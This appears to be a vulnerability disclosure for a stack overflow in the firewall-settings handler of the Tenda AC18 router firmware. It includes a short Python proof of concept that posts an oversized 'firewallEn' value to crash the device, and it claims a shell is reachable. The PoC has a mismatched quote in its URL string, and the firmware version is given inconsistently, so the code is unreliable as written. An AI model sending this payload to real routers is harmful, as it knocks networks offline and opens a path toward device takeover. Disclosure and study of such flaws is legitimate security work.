 ## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## 2. Vulnerability details


A stack overflow vulnerability exists in the formSetFirewallCfg function of the Tenda AC18 V15.03.05.019 firmware. The v1 variable retrieves the firewallEn parameter from a POST request without proper validation. 
The program directly copies the content of src into the stack buffer dest, using the strcpy function. However, no size validation is performed on the content of src before the copying operation. Since strcpy does not limit the length of the copied data, an attacker can supply a crafted "firewallEn" parameter with a length exceeding the size of the stack buffers, leading to a stack-based buffer overflow. This vulnerability can result in Denial of Service (DoS) by overwriting critical stack memory with controlled data.

   
   ![My Image](8.png)

## 3 POC
```python
import requests

url = 'http://IP:port/goform/SetFirewallCfg"

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'firewallEn': 'l' * 10000
}
res = requests.post(url=url, headers=headers, data=data)
print(res.text)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
